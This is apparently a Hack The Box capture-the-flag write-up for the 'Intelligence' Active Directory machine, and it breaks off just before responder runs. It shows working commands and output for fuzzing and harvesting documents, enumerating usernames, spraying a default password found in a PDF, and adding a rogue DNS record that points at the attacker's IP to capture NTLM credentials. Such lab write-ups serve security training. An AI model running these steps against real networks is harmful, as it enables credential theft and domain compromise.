





<p align="right"><a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.248 intelligence.htb

**nmap scan:**
```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Intelligence
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-07-19 21:02:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-07-19T21:04:18+00:00; +7h03m54s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-07-19T21:04:18+00:00; +7h03m54s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-07-19T21:04:18+00:00; +7h03m55s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49702/tcp open  msrpc         Microsoft Windows RPC
49714/tcp open  msrpc         Microsoft Windows RPC
58601/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h03m54s, deviation: 0s, median: 7h03m53s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-07-19T21:03:42
|_  start_date: N/A
```

* `Enum4linux` doesn't get anything: `enum4linux -a 10.10.10.248`.
* SMB anonymous login allowed but no share: `smbclient -L 10.10.10.248`.

Found 2 pdf files from web server
```bash
❯ echo 'http://intelligence.htb/' | hakrawler
http://intelligence.htb/documents/2020-01-01-upload.pdf
http://intelligence.htb/documents/2020-12-15-upload.pdf
```

Download both pdfs
```bash
❯ echo 'http://intelligence.htb/' | hakrawler | grep pdf | xargs wget -q
❯ ls -l
total 56
-rw-r--r-- 1 x00tex x00tex 26835 Apr  1  2021 2020-01-01-upload.pdf
-rw-r--r-- 1 x00tex x00tex 27242 Apr  1  2021 2020-12-15-upload.pdf
```

Got some usernames from pdf's metadata with `exiftool`
```bash
❯ exiftool * -Creator
======== 2020-01-01-upload.pdf
Creator                         : William.Lee
======== 2020-12-15-upload.pdf
Creator                         : Jose.Williams
    2 image files read
```

Using kerbrute to verify valid usernames, and both users are valid.
```bash
❯ kerbrute userenum -d intelligence.htb --dc 10.10.10.248 users.txt

# ... [snip] ...

2021/11/27 09:04:06 >  Using KDC(s):
2021/11/27 09:04:06 >  	10.10.10.248:88

2021/11/27 09:04:07 >  [+] VALID USERNAME:	 Jose.Williams@intelligence.htb
2021/11/27 09:04:07 >  [+] VALID USERNAME:	 William.Lee@intelligence.htb
2021/11/27 09:04:07 >  Done! Tested 2 usernames (2 valid) in 0.661 seconds
```

Don't get anything useful from those username.

# Foothold

## Enumeration

Based on the pdf's name i tried to fuzz more files based on their dates.

```bash
❯ for y in {20..21};do for m in {01..12};do for d in {01..30};do echo 20$y-$m-$d;done;done;done | ffuf -w -  -u 'http://intelligence.htb/documents/FUZZ-upload.pdf' -ac -of json -o output.json

# ... [snip] ...
________________________________________________

2020-01-20              [Status: 200, Size: 11632, Words: 157, Lines: 127, Duration: 411ms]
2020-01-23              [Status: 200, Size: 11557, Words: 167, Lines: 136, Duration: 416ms]
2020-01-22              [Status: 200, Size: 28637, Words: 236, Lines: 224, Duration: 412ms]
2020-02-17              [Status: 200, Size: 11228, Words: 167, Lines: 132, Duration: 614ms]
2020-01-10              [Status: 200, Size: 26400, Words: 232, Lines: 205, Duration: 413ms]
2020-01-04              [Status: 200, Size: 27522, Words: 223, Lines: 196, Duration: 417ms]
2020-02-28              [Status: 200, Size: 11543, Words: 167, Lines: 131, Duration: 619ms]
2020-01-01              [Status: 200, Size: 26835, Words: 241, Lines: 209, Duration: 419ms]
2020-01-25              [Status: 200, Size: 26252, Words: 225, Lines: 193, Duration: 421ms]
2020-01-02              [Status: 200, Size: 27002, Words: 229, Lines: 199, Duration: 423ms]
2020-01-30              [Status: 200, Size: 26706, Words: 242, Lines: 193, Duration: 426ms]
2020-02-11              [Status: 200, Size: 25245, Words: 241, Lines: 198, Duration: 459ms]
2020-03-21              [Status: 200, Size: 11250, Words: 157, Lines: 134, Duration: 426ms]
2020-02-23              [Status: 200, Size: 27378, Words: 247, Lines: 213, Duration: 614ms]
2020-02-24              [Status: 200, Size: 27332, Words: 237, Lines: 206, Duration: 615ms]
2020-04-02              [Status: 200, Size: 11466, Words: 156, Lines: 134, Duration: 504ms]
2020-03-04              [Status: 200, Size: 26194, Words: 235, Lines: 202, Duration: 611ms]
2020-03-05              [Status: 200, Size: 26124, Words: 221, Lines: 205, Duration: 612ms]
2020-03-12              [Status: 200, Size: 27143, Words: 233, Lines: 213, Duration: 584ms]
2020-03-13              [Status: 200, Size: 24888, Words: 213, Lines: 204, Duration: 583ms]
2020-03-17              [Status: 200, Size: 27227, Words: 221, Lines: 210, Duration: 408ms]
2020-04-23              [Status: 200, Size: 24865, Words: 224, Lines: 212, Duration: 368ms]
2020-04-04              [Status: 200, Size: 27949, Words: 226, Lines: 208, Duration: 507ms]
2020-05-20              [Status: 200, Size: 27480, Words: 215, Lines: 200, Duration: 337ms]
2020-04-15              [Status: 200, Size: 26689, Words: 227, Lines: 212, Duration: 619ms]
2020-05-24              [Status: 200, Size: 11857, Words: 174, Lines: 149, Duration: 334ms]
2020-05-29              [Status: 200, Size: 11532, Words: 159, Lines: 132, Duration: 432ms]
2020-06-03              [Status: 200, Size: 11381, Words: 160, Lines: 136, Duration: 412ms]
2020-06-02              [Status: 200, Size: 27797, Words: 236, Lines: 212, Duration: 417ms]
2020-06-04              [Status: 200, Size: 26922, Words: 222, Lines: 220, Duration: 412ms]
2020-06-08              [Status: 200, Size: 11540, Words: 165, Lines: 135, Duration: 412ms]
2020-05-01              [Status: 200, Size: 28228, Words: 237, Lines: 194, Duration: 372ms]
2020-05-03              [Status: 200, Size: 26093, Words: 233, Lines: 208, Duration: 357ms]
2020-05-07              [Status: 200, Size: 26062, Words: 225, Lines: 183, Duration: 340ms]
2020-06-12              [Status: 200, Size: 11575, Words: 159, Lines: 128, Duration: 393ms]
2020-05-11              [Status: 200, Size: 27244, Words: 243, Lines: 207, Duration: 339ms]
2020-06-15              [Status: 200, Size: 27121, Words: 245, Lines: 206, Duration: 376ms]
2020-05-17              [Status: 200, Size: 26448, Words: 239, Lines: 207, Duration: 344ms]
2020-06-21              [Status: 200, Size: 26060, Words: 246, Lines: 210, Duration: 350ms]
2020-05-21              [Status: 200, Size: 26255, Words: 251, Lines: 194, Duration: 341ms]
2020-06-25              [Status: 200, Size: 10662, Words: 157, Lines: 142, Duration: 357ms]
2020-06-26              [Status: 200, Size: 27338, Words: 236, Lines: 205, Duration: 398ms]
2020-06-28              [Status: 200, Size: 26390, Words: 216, Lines: 208, Duration: 392ms]
2020-07-02              [Status: 200, Size: 27320, Words: 236, Lines: 202, Duration: 408ms]
2020-06-30              [Status: 200, Size: 25634, Words: 234, Lines: 194, Duration: 411ms]
2020-07-06              [Status: 200, Size: 24966, Words: 217, Lines: 183, Duration: 416ms]
2020-07-08              [Status: 200, Size: 11910, Words: 167, Lines: 141, Duration: 413ms]
2020-06-07              [Status: 200, Size: 27937, Words: 240, Lines: 217, Duration: 411ms]
2020-06-14              [Status: 200, Size: 26443, Words: 236, Lines: 186, Duration: 361ms]
2020-07-20              [Status: 200, Size: 12100, Words: 162, Lines: 138, Duration: 400ms]
2020-06-22              [Status: 200, Size: 26278, Words: 239, Lines: 207, Duration: 351ms]
2020-08-01              [Status: 200, Size: 27038, Words: 228, Lines: 205, Duration: 433ms]
2020-08-03              [Status: 200, Size: 25405, Words: 247, Lines: 189, Duration: 400ms]
2020-08-09              [Status: 200, Size: 11611, Words: 161, Lines: 144, Duration: 403ms]
2020-08-19              [Status: 200, Size: 26885, Words: 231, Lines: 214, Duration: 425ms]
2020-08-20              [Status: 200, Size: 10711, Words: 171, Lines: 133, Duration: 435ms]
2020-07-24              [Status: 200, Size: 26321, Words: 211, Lines: 207, Duration: 424ms]
2020-09-02              [Status: 200, Size: 27148, Words: 215, Lines: 203, Duration: 404ms]
2020-09-04              [Status: 200, Size: 26986, Words: 245, Lines: 194, Duration: 395ms]
2020-09-05              [Status: 200, Size: 26417, Words: 210, Lines: 193, Duration: 403ms]
2020-09-06              [Status: 200, Size: 25551, Words: 238, Lines: 193, Duration: 407ms]
2020-09-11              [Status: 200, Size: 12098, Words: 156, Lines: 146, Duration: 383ms]
2020-09-13              [Status: 200, Size: 26521, Words: 219, Lines: 212, Duration: 388ms]
2020-09-22              [Status: 200, Size: 25072, Words: 225, Lines: 194, Duration: 401ms]
2020-09-27              [Status: 200, Size: 26809, Words: 248, Lines: 227, Duration: 384ms]
2020-09-29              [Status: 200, Size: 24586, Words: 228, Lines: 221, Duration: 367ms]
2020-09-30              [Status: 200, Size: 26080, Words: 244, Lines: 197, Duration: 370ms]
2020-10-05              [Status: 200, Size: 11248, Words: 162, Lines: 127, Duration: 370ms]
2020-10-19              [Status: 200, Size: 27196, Words: 244, Lines: 213, Duration: 392ms]
2020-09-16              [Status: 200, Size: 26959, Words: 236, Lines: 207, Duration: 410ms]
2020-11-01              [Status: 200, Size: 26599, Words: 237, Lines: 186, Duration: 403ms]
2020-11-03              [Status: 200, Size: 25568, Words: 222, Lines: 186, Duration: 415ms]
2020-11-06              [Status: 200, Size: 25964, Words: 251, Lines: 220, Duration: 421ms]
2020-11-10              [Status: 200, Size: 25472, Words: 229, Lines: 216, Duration: 436ms]
2020-11-11              [Status: 200, Size: 26461, Words: 226, Lines: 206, Duration: 442ms]
2020-11-13              [Status: 200, Size: 11074, Words: 153, Lines: 134, Duration: 447ms]
2020-11-24              [Status: 200, Size: 11412, Words: 151, Lines: 133, Duration: 425ms]
2020-11-30              [Status: 200, Size: 27286, Words: 252, Lines: 207, Duration: 399ms]
2020-12-10              [Status: 200, Size: 26762, Words: 224, Lines: 200, Duration: 410ms]
2020-12-15              [Status: 200, Size: 27242, Words: 242, Lines: 210, Duration: 397ms]
2020-12-20              [Status: 200, Size: 11902, Words: 163, Lines: 137, Duration: 378ms]
2020-12-24              [Status: 200, Size: 26825, Words: 234, Lines: 209, Duration: 404ms]
2020-12-28              [Status: 200, Size: 11480, Words: 164, Lines: 127, Duration: 396ms]
2020-12-30              [Status: 200, Size: 25109, Words: 218, Lines: 191, Duration: 401ms]
2021-01-03              [Status: 200, Size: 27828, Words: 233, Lines: 206, Duration: 405ms]
2021-01-14              [Status: 200, Size: 11178, Words: 170, Lines: 137, Duration: 357ms]
2021-01-25              [Status: 200, Size: 27582, Words: 237, Lines: 215, Duration: 414ms]
2021-01-30              [Status: 200, Size: 25939, Words: 227, Lines: 194, Duration: 428ms]
2021-02-10              [Status: 200, Size: 26978, Words: 230, Lines: 205, Duration: 429ms]
2021-02-13              [Status: 200, Size: 27053, Words: 232, Lines: 212, Duration: 443ms]
2021-02-21              [Status: 200, Size: 26032, Words: 241, Lines: 214, Duration: 438ms]
2021-02-25              [Status: 200, Size: 26700, Words: 228, Lines: 180, Duration: 443ms]
2021-03-01              [Status: 200, Size: 11254, Words: 175, Lines: 135, Duration: 425ms]
2021-03-07              [Status: 200, Size: 10676, Words: 164, Lines: 139, Duration: 398ms]
2021-03-10              [Status: 200, Size: 25109, Words: 240, Lines: 199, Duration: 379ms]
2021-03-18              [Status: 200, Size: 27992, Words: 220, Lines: 203, Duration: 370ms]
2021-03-21              [Status: 200, Size: 26810, Words: 229, Lines: 205, Duration: 348ms]
2021-03-25              [Status: 200, Size: 27327, Words: 231, Lines: 211, Duration: 343ms]
2021-03-27              [Status: 200, Size: 12127, Words: 166, Lines: 141, Duration: 358ms]
:: Progress: [720/720] :: Job [1/1] :: 97 req/sec :: Duration: [0:00:08] :: Errors: 0 ::
```

Holly hell got so many pdfs. Total 99 files
```bash
❯ cat output.json | jq '.results[] .url' | wc -l
99
```

`wget` all files
```bash
❯ cat output.json | jq '.results[] .url' | xargs wget

# ... [snip] ...

❯ ls
2020-01-01-upload.pdf  2020-04-02-upload.pdf  2020-06-15-upload.pdf  2020-09-06-upload.pdf  2020-12-20-upload.pdf
2020-01-02-upload.pdf  2020-04-04-upload.pdf  2020-06-21-upload.pdf  2020-09-11-upload.pdf  2020-12-24-upload.pdf
2020-01-04-upload.pdf  2020-04-15-upload.pdf  2020-06-22-upload.pdf  2020-09-13-upload.pdf  2020-12-28-upload.pdf
2020-01-10-upload.pdf  2020-04-23-upload.pdf  2020-06-25-upload.pdf  2020-09-16-upload.pdf  2020-12-30-upload.pdf
2020-01-20-upload.pdf  2020-05-01-upload.pdf  2020-06-26-upload.pdf  2020-09-22-upload.pdf  2021-01-03-upload.pdf
2020-01-22-upload.pdf  2020-05-03-upload.pdf  2020-06-28-upload.pdf  2020-09-27-upload.pdf  2021-01-14-upload.pdf
2020-01-23-upload.pdf  2020-05-07-upload.pdf  2020-06-30-upload.pdf  2020-09-29-upload.pdf  2021-01-25-upload.pdf
2020-01-25-upload.pdf  2020-05-11-upload.pdf  2020-07-02-upload.pdf  2020-09-30-upload.pdf  2021-01-30-upload.pdf
2020-01-30-upload.pdf  2020-05-17-upload.pdf  2020-07-06-upload.pdf  2020-10-05-upload.pdf  2021-02-10-upload.pdf
2020-02-11-upload.pdf  2020-05-20-upload.pdf  2020-07-08-upload.pdf  2020-10-19-upload.pdf  2021-02-13-upload.pdf
2020-02-17-upload.pdf  2020-05-21-upload.pdf  2020-07-20-upload.pdf  2020-11-01-upload.pdf  2021-02-21-upload.pdf
2020-02-23-upload.pdf  2020-05-24-upload.pdf  2020-07-24-upload.pdf  2020-11-03-upload.pdf  2021-02-25-upload.pdf
2020-02-24-upload.pdf  2020-05-29-upload.pdf  2020-08-01-upload.pdf  2020-11-06-upload.pdf  2021-03-01-upload.pdf
2020-02-28-upload.pdf  2020-06-02-upload.pdf  2020-08-03-upload.pdf  2020-11-10-upload.pdf  2021-03-07-upload.pdf
2020-03-04-upload.pdf  2020-06-03-upload.pdf  2020-08-09-upload.pdf  2020-11-11-upload.pdf  2021-03-10-upload.pdf
2020-03-05-upload.pdf  2020-06-04-upload.pdf  2020-08-19-upload.pdf  2020-11-13-upload.pdf  2021-03-18-upload.pdf
2020-03-12-upload.pdf  2020-06-07-upload.pdf  2020-08-20-upload.pdf  2020-11-24-upload.pdf  2021-03-21-upload.pdf
2020-03-13-upload.pdf  2020-06-08-upload.pdf  2020-09-02-upload.pdf  2020-11-30-upload.pdf  2021-03-25-upload.pdf
2020-03-17-upload.pdf  2020-06-12-upload.pdf  2020-09-04-upload.pdf  2020-12-10-upload.pdf  2021-03-27-upload.pdf
2020-03-21-upload.pdf  2020-06-14-upload.pdf  2020-09-05-upload.pdf  2020-12-15-upload.pdf
```

Running `exiftool` tool again to new downloaded files and get more usernames, total 30
```bash
❯ exiftool * -Creator -s -s -s | grep -v '========' | head -n -1 | sort | uniq | wc -l
30
```

And all usernames are valid
```bash
❯ kerbrute userenum -d intelligence.htb --dc 10.10.10.248 users.txt

# ... [snip] ...

2021/11/27 10:30:10 >  Using KDC(s):
2021/11/27 10:30:10 >  	10.10.10.248:88

2021/11/27 10:30:11 >  [+] VALID USERNAME:	 David.Reed@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Brian.Baker@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Anita.Roberts@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Danny.Matthews@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Ian.Duncan@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Darryl.Harris@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Brian.Morris@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 David.Wilson@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Daniel.Shelton@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 David.Mcbride@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Jason.Wright@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Kelly.Long@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Richard.Williams@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Jennifer.Thomas@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Kaitlyn.Zimmerman@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Jessica.Moody@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Nicole.Brock@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 John.Coleman@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Jose.Williams@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Jason.Patterson@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Teresa.Williamson@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Samuel.Richardson@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Scott.Scott@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Veronica.Patel@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Tiffany.Molina@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Thomas.Hall@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Travis.Evans@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 William.Lee@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Stephanie.Young@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Thomas.Valenzuela@intelligence.htb
2021/11/27 10:30:12 >  Done! Tested 30 usernames (30 valid) in 1.255 seconds
```

Read through all the pdfs using `pdf2txt` tool and somewhere in the text found a password, don't know which pdf contains this text but we got a password.
```bash
❯ pdf2txt *

# ... [snip] ...

New Account Guide

Welcome to Intelligence Corp!
Please login using your username and the default password of:
NewIntelligenceCorpUser9876

After logging in please change your password as soon as possible.


# ... [snip] ...
```

Brute forcing with crackmapexec and got working smb creds.
```bash
❯ cme smb intelligence.htb  -u users.txt -p 'NewIntelligenceCorpUser9876' --continue-on-success
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
# ... [snip] ...
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
# ... [snip] ...
```

```bash
❯ cme smb intelligence.htb  -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --shares
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
SMB         10.10.10.248    445    DC               [+] Enumerated shares
SMB         10.10.10.248    445    DC               Share           Permissions     Remark
SMB         10.10.10.248    445    DC               -----           -----------     ------
SMB         10.10.10.248    445    DC               ADMIN$                          Remote Admin
SMB         10.10.10.248    445    DC               C$                              Default share
SMB         10.10.10.248    445    DC               IPC$            READ            Remote IPC
SMB         10.10.10.248    445    DC               IT              READ            
SMB         10.10.10.248    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.10.248    445    DC               SYSVOL          READ            Logon server share 
SMB         10.10.10.248    445    DC               Users           READ
```

There are 2 shares in SMB that looks interesting
```bash
❯ smbmap -H 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -r \IT
[+] IP: 10.10.10.248:445	Name: intelligence.htb                                  
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	IT                                                	READ ONLY	
	.\IT\*
	dr--r--r--                0 Mon Apr 19 06:20:58 2021	.
	dr--r--r--                0 Mon Apr 19 06:20:58 2021	..
	fr--r--r--             1046 Mon Apr 19 06:20:58 2021	downdetector.ps1
❯ smbmap -H 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -r \Users
[+] IP: 10.10.10.248:445	Name: intelligence.htb                                  
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	Users                                             	READ ONLY	
	.\Users\*
	dw--w--w--                0 Mon Apr 19 06:50:26 2021	.
	dw--w--w--                0 Mon Apr 19 06:50:26 2021	..
	dr--r--r--                0 Mon Apr 19 05:48:39 2021	Administrator
	dr--r--r--                0 Mon Apr 19 08:46:30 2021	All Users
	dw--w--w--                0 Mon Apr 19 07:47:40 2021	Default
	dr--r--r--                0 Mon Apr 19 08:46:30 2021	Default User
	fr--r--r--              174 Mon Apr 19 08:45:17 2021	desktop.ini
	dw--w--w--                0 Mon Apr 19 05:48:39 2021	Public
	dr--r--r--                0 Mon Apr 19 06:50:26 2021	Ted.Graves
	dr--r--r--                0 Mon Apr 19 06:21:46 2021	Tiffany.Molina
```

Got the `user.txt` from "Tiffany.Molina" User folder and there's another user on the box "Ted.Graves".
```bash
smb: \Tiffany.Molina\Desktop\> dir
  .                                  DR        0  Mon Apr 19 06:21:46 2021
  ..                                 DR        0  Mon Apr 19 06:21:46 2021
  user.txt                           AR       34  Sat Nov 27 01:48:28 2021

		3770367 blocks of size 4096. 1450547 blocks available
```

There's only 1 interesting file is  `downdetector.ps1` file in `\IT` share.
```ps1
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

This script is running on Scheduler in every 5min from user "Ted.Graves" and checking inactive hosts from domain controller's DNS records which start with `web*` using his creds.

If we add a DNS record in the domain control with that we can do [NTLM Relay Attack](https://www.qomplx.com/qomplx-knowledge-ntlm-relay-attacks-explained/#what-are-ntlm-relay-attacks).

## NTLM Relay Attack

For that we can use [responder](https://github.com/lgandx/Responder); **Source [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks#responder)**

Adding DNS record in the domain controller with [krbrelayx](https://github.com/dirkjanm/krbrelayx) `dnstool.py` script.
```bash
❯ python dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -r webduck -d 10.10.14.42 -a add 10.10.10.248
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding extra record
[+] LDAP operation completed successfully
```

Running responder on "tun0" interface on Analyze mode 
```bash
